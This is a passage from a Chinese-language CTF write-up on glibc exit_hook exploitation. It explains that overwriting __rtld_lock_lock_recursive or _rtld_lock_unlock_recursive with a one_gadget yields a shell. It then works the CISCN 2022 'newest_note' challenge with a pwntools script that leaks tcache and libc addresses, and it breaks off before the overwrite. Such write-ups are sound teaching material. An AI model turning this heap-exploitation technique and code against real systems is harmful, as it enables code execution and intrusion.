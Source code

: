    从上面的源码反应来看，__rtld_lock_lock_recursive 和  _rtld_lock_unlock_recursive都会被调用到。
   
   下面分别覆盖两个指针测试一下：
   
   覆盖 __rtld_lock_lock_recursive ，可以get shell
   
   ![image-20240830174206800](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408301742074.png)
   
   覆盖 __rtld_lock_unlock_recursive ，可以get shell：
   
   ![image-20240830174538001](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408301745306.png)
   
3. 综上，只需要覆盖__rtld_lock_lock_recursive 和  _rtld_lock_unlock_recursive其中一个为one_gadget即可getshell，这rdi寄存器的值我们控制不了，除非能申请到chunk，然后往 _rtld_local+2440上面写"/bin/sh"的地址，否则就只能打one_gadget。



## 例题：

题目地址：[[CISCN 2022 初赛\]newest_note | NSSCTF](https://www.nssctf.cn/problem/2351)

### 思路：

1. 利用mallc heap时大小未控制，申请到libc上的堆空间 ==> 泄漏main_arena中的地址。
2. 利用fastbin 进行double free，申请到exit_hook位置的chunk ==> 用one_gadget覆盖掉。

## 利用：

1.  前面的泄漏地址，因为已经申请到libc上的chunk，且show时没有范围限制，所以直接找到main_arena上的地址输出即可：

   ```py
   one_gadget = [0xeeccc,0xeeccf,0xeecd2]
   
   p.sendlineafter(b"be? :",str(0x40040000).encode())
   for i in range(9):
       add(i,b"a")
   for i in range(7):
       free(i)
   #获取tcache基地址
   show(0)
   p.recvuntil(b'Content: ')
   tcache_base = u64(p.recv(5).ljust(8,b"\x00"))
   success("tcache_base==>"+hex(tcache_base))
   
   #泄漏libc地址
   show(539034)
   # show((0x7ff872018ce0-0x7ff871bff010)//8)
   print((0x7ff872018ce0-0x7ff871bff010)//8)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   libc_base = addr - (0x218C60+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   environ_addr = libc_base+libc.sym["environ"]
   success("system_addr==>"+hex(system_addr))
   success("environ_addr==>"+hex(environ_addr))
   
   ```
